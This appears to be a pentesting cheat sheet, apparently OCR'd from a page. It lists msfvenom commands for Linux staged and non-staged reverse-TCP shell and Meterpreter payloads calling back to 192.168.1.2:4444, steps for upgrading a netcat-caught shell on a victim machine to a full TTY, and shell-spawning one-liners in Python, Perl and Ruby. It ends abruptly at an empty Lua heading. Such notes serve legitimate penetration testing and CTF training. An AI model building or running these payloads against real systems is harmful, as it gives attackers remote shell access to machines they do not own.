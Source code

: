 ### **Meterpreter Reverse Shells**

* **Linux Non-Staged reverse TCP**

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f elf >reversetcp.elf
```

* **Linux Staged reverse TCP**

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f elf >reversetcp.elf
```

## Upgrading remote shells

After catching a shell through netcat, you are placed in a shell that has very limited functionality. If the remote machine has python or python3 installed you can easily upgrade to a fully functional TTY shell.

&#x20;**Note:** To check if the shell is a TTY shell use the `tty` command.

### Upgrade to fully interactive shell (python example):

```bash
#On victim machine
python -c 'import pty;pty.spawn("/bin/bash")'; #spawn python psuedo-shell
ctrl-z #send to background

#On attacker's machine
stty raw -echo #https://stackoverflow.com/questions/22832933/what-does-stty-raw-echo-do-on-os-x
stty size #get local number of rows & columns
fg #to return shell to foreground

#On victim machine
export SHELL=bash
stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```

When using some shells such as `zsh` or `fish` on the attacking machine your shell will break after you try to upgrade it using this method.  Some of the things I have found that help mitigate this are:

1. Use `rlwrap nc -lvnp` when setting up your listener,
2. make sure not to put a space in your python pty command after the import,
3. type `stty size;stty raw -echo;fg` all on one line.

Finally, as a last resort, you could just switch to `bash` instead when setting up your `nc` listener.

### Other Languages:

```python
echo os.system('/bin/bash')
/bin/sh -i

#python3
python3 -c 'import pty; pty.spawn("/bin/sh")'

#perl
perl -e 'exec "/bin/sh";'

#ruby
exec "/bin/sh"
ruby -e 'exec "/bin/sh"'

#lua
```